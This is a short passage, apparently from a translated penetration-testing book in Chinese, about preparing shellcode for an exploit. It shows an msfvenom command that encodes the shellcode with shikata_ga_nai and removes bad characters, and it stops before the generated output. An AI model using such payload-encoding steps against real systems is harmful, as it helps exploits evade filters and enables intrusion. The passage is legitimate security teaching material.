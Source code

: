 ![逆向 Metasploit 模块](img/B04315_08_49.jpg)

现在，将数据编码为脚本可用的格式，删除我们通常知道会破坏漏洞的不良字符。

```py
cat shellcode |msfvenom -b "\x00\xff\x01\x09\x0a\x0d" -e x86/shikata_ga_nai -f c --arch x86 --platform win

```

生成的输出是实际用于此漏洞利用的 shellcode：
